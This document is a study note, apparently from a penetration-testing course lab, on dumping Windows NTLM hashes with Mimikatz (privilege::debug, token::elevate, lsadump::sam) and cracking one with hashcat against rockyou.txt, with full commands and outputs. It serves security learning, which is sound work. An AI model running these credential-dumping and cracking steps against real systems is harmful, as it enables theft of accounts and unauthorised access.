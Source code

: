 
# Cracking NTLM Hashes
On [Windows](../../computers/windows/README.md) machines passwords are [hashed](../../computers/concepts/cryptography/hashing.md) and stored in the [Security Account Manager](../../computers/windows/SAM.md)(SAM). Before being stored, passwords are hashed using [NTLM](../../networking/protocols/NTLM.md). Unfortunately, NTLM hashes are pretty insecure and an 8 character password can be *cracked within 2 hours*.
## NTLM Security
NTLM was created to replace the original protocol called LM. LM used DES which is known to be a very week algorithm. Additionally, LM was *case insensitive* which decreased the [Keyspace](password-cracking.md#Keyspace) making it easier to crack. 

NTLM hashes are more secure because they are *case sensitive* and use the *MD4* hashing algorithm. However, *they are not salted* (salting is when random bits are added to the beginning of a password before its hashed). Salting a password prevents it from being [brute-forced](../../cybersecurity/TTPs/cracking/brute-force.md) using a [rainbow-table](../../cybersecurity/TTPs/exploitation/rainbow-table.md).
## Getting the Hash
The SAM database file is located at `C:\Windows\system32\config\sam` and its contents can't just be copy pasted because Windows keeps a *file system lock* on it. Instead, we can use [Mimikatz](https://github.com/gentilkiwi/mimikatz).
### Finding Users to Impersonate
Before we use mimikatz, lets do some recon and find a user to impersonate. We can use `Get-LocalUser` in [powershell](../../computers/windows/powershell.md) to see a list of all of the users on the system:
```powershell
PS C:\Users\offsec> Get-LocalUser

Name               Enabled Description
----               ------- -----------
Administrator      False   Built-in account for administering the computer/domain
DefaultAccount     False   A user account managed by the system.
Guest              False   Built-in account for guest access to the computer/domain
nelly              True
offsec             True
WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
...
```
In the output, we see that there are two enabled users, `nelly` and `offsec`.
### Mimikatz
[mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md) is a versatile Windows tool which can be used for password and hash attacks. One thing in particular it can do is extract password hashes *from the [LSASS](../../computers/windows/LSASS.md)* process's memory. LSASS, which runs with `SYSTEM` level privileges, caches NTLM hashes and other creds in its memory. We can use Mimikatz' *sekurlsa* module to extract them.

Because `lsass.exe` runs with `SYSTEM` level privileges, we need to run Mimikatz *as an Administrator* with the `SeDebugPrivilege` access right enabled. `SeDebugPrivilege` grants us the ability to *debug processes* we own as well as ones we don't own.
#### Starting Mimikatz
First, open powershell by running it as an administrator. Find the `mimikatz.exe` tool (usually you have to bring the executable onto the Windows system you've compromised) and run it with `.\mimikatz.exe`:
```powershell
PS C:\Windows\system32> cd C:\tools
PS C:\tools> ls
    Directory: C:\tools
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/31/2022  12:25 PM        1355680 mimikatz.exe

PS C:\tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```
Once you start it, it will give you a little repl shell thing. Now you can run mimikatz commands.
#### Enabling Privileges
There are a few commands for extracting passwords/tokens/hashes, etc. but a lot of them require the `SeDebugPrivilege` access right and `SYSTEM` level privileges. We can use `privilege::debug` to gain those:
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
#### Token Elevation Module
Now that we have `SYSTEM` privileges, we can access the LSASS. Mimikatz will allow us to do that via it's *[Token Module](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md#Token%20Module)*. This module allows Mimikatz to interact with Windows *authentication tokens* in the LSASS. With this module, mimikatz can grab tokens and then impersonate them. If we use `token::elevate`, we can impersonate another process/ user by elevating our token to theirs:
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
Now we're impersonating `NT AUTHORITY\SYSTEM` built-in account.
#### Getting the Hash with `lsadump::sam`
Now we can dump tokens from the SAM and see if we can find a token for the `nelly` user we saw with `Get-LocalUser` before:
```powershell
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
## Cracking the Hash
Now that we have the NTLM hash for the `nelly` user, we can bring it to our cracking rig and crack it. First, we need to put it into a file with a `.hash` extension. Then we can use [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md) to crack it:
### Find the Right Hash Mode
Assuming the hash we gathered is a regular NTLM hash we can find the hash mode for it like so:
```bash
hashcat --help | grep -i "ntlm"   
                                                                            
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```
From the output, our hashmode is `1000`.
### Crack the Hash
Now we can run hashcat. For the wordlist we can use `rockyou.txt` and for the ruleset we can use `best64.rule`:
```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat (v6.2.5) starting
...
3ae8e5f0ffabb3a627672e1600f1ba10:nicole1                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
Time.Started.....: Thu Jun  2 04:11:28 2022, (0 secs)
Time.Estimated...: Thu Jun  2 04:11:28 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 17926.2 kH/s (2.27ms) @ Accel:256 Loops:77 Thr:1 Vec:8
...
```
Hashcat has managed to crack the hash for the password `nicole1`. 

> [!Resources]
> - [Mimikatz Repo](https://github.com/gentilkiwi/mimikatz)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.